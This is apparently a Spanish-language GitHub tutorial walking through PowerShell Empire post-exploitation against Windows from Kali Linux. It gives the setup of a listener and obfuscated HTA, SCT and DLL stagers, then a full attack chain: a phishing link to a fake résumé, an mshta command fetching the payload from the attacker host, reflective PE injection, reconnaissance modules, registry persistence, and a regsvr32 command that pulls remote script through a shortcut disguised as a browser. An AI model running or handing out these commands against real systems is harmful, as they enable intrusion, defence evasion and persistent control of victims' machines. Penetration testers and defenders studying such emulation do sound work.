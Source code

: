 # Powershell Empire: Post-Explotación en redes Windows con Kali linux

-Powershell Empire, es un framework de post-explotación basado en el despliegue de agentes que se ejecutan en las máquinas comprometidas y son gestionados desde una consola bajo el control del pentester.
-Consiste en la integración de los frameworks conocidos de pentesting con powershell.
-Se centra únicamente en Python con comunicaciones criptográficamente seguras con el complemento de una arquitectura flexible.

# Componentes de PowerShell Empire

1.Listeners: Es un proceso que escucha una conexión desde la máquina que estamos atacando. Esto ayuda a Empire a enviar el “paquete” a la computadora del atacante.
2.Agentes: Es un programa que mantiene una conexión entre tu computadora y el host comprometido.
3.Stagers: Es un fragmento de código que permite que nuestro código malicioso se ejecute a través del agente en el host comprometido.
4.Módulos: Esto es lo que ejecuta nuestros comandos maliciosos, que pueden recopilar credenciales y escalar nuestros privilegios como se mencionó anteriormente.

## Prerequisitos
1. Considerar los S.O compatibles que han sido testeados para el uso de Empire:
-Kali Linux Rolling (En nuestro caso estaremos utilizando este S.O)
-Ubuntu 20.04
-Debian 10

> Verificar con:
> 
> uname -r

2. Actualizar todas las dependencias y paquetes del S.O
> sudo apt update 

3. Tener instalado Python como mínimo la versión 3.8 (Se recomiendo la v3.8 o v3.9)
> Verificar con:
> 
> python --version

4. Para los S.O Kali instalar la versión utilizando sudo (las nuevas versiones de Kali requieren correr “sudo” antes de empezar Empire.


## Instalación Empire
1. Instalar la ultima versión de Empire corriendo lo siguiente:
> sudo apt install powershell-empire

El resultado debe ser el siguiente:
![image](https://i.imgur.com/DAawQol.jpg)

## Inicializar Empire
1. Inicializar servidor empire
> sudo powershell-empire server

![image](https://i.imgur.com/SuNG6Of.jpg)

2. Inicializar cliente empire
> sudo powershell-empire client

![image](https://i.imgur.com/X2cQsBp.jpg)

## Instalación Starkiller
1. Instalar Starkiller para tener GUI
> cd /opt
> 
> sudo wget https://github.com/BC-SECURITY/Starkiller/releases/download/v1.0.0/starkiller-1.0.0.AppImage
> 
> sudo chmod +x starkiller-1.0.0.AppImage

![image](https://i.imgur.com/rFlVBTU.jpg)

## Inicializar Starkiller (GUI)
1. Iniciar Starkiller
> cd /opt/starkiller
> 
> ./starkiller-1.0.0.AppImage

![image](https://i.imgur.com/UfK06Mk.jpg)

## Creación de componentes PowerShell Empire
1.Crear Listener
> Type: http
> 
> Name: http
> 
> Host: http://10.0.0.187
> 
> Port: 80
> 
> BindIP: 10.0.0.187
> 
> Jitter: 0.5
> 
> StagingKey: empireadmin

![image](https://i.imgur.com/uqNHCBy.jpg)

2.Crear Stagers

-Generar Stager HTA:

>Type: windows/hta
>
>Listner: http
>
>Base64: True
>
>Language: powershell
>
>Outfile: /tmp/Resume.hta

-Generar Stager SCT:

> Type: windows/launcher_sct
> 
>Listner: http
>
>Base64: True
>
>Language: powershell

-Generar Stager DLL:

> Type: windows/dll
> 
>Listner: http
>
>Arch: x86
>
>Language: powershell
>
>OutFile: /tmp/launcher.dll
>
>Obfuscate: True
>
>ObfuscateCommand: Token\String\1

Resultado de la creación de Stagers:

![image](https://i.imgur.com/htm5bqB.jpg)

3.Descargar Stagers en /tmp y usarlos con SimpleHTTPServer

> cd /tmp
> 
> python -m SimpleHTTPServer 8080

![image](https://i.imgur.com/JurGJ9P.jpg)

##Emulación de TTP's

1. Acceso Inicial
Enviamos un link de descarga o mail http://192.168.126.129/Resume.hta

2. Ejecución
-Ejecutar Resume.hta

> mshta http://10.0.0.187:8080/Resume.hta

![image](https://i.imgur.com/lZCeoZq.jpg)

-Migrar a otro proceso con reflective PE Injection

> ver procesos: ps
> 
> usemodule code_execution/invoke_reflectivepeinjection
> 
> set ProcID: <processID>
>  
> set DllPath: /tmp/launcher.dll

![image](https://i.imgur.com/Ap8ghR1.jpg)
  
3. Agente Activo
 
![image](https://i.imgur.com/9Q5JA25.jpg)
  
4. Descubrimiento
  
>whoami
>
>usemodule situational_awareness/host/antivirusproduct 
> 
>usemodule situational_awareness/host/get_uaclevel 
>
>usemodule situational_awareness/host/winenum

![image](https://i.imgur.com/8DjskSO.jpg)

5. Persistencia
> usemodule persistence/userland/registry
>
> set Listener: http

![image](https://i.imgur.com/loz2sRu.jpg)

6. Evasión de defensa
  
-Ejecución con regsvr32 y scripting. Se crea un acceso directo enmascarango un navegador web con target:
  
> C:\Windows\System32\cmd.exe /c "C:\Windows\System32\regsvr32.exe /s /n /u /i:http:\192.168.126.129:8080\launcher.sct scrobj.dll"

![image](https://i.imgur.com/maJN0cy.jpg)

#### De lo presentado anteriormente se puede apreciar que el malware (.exe/dll/hta) permite construir cualquier ataque ya que se tiene acceso a win32.
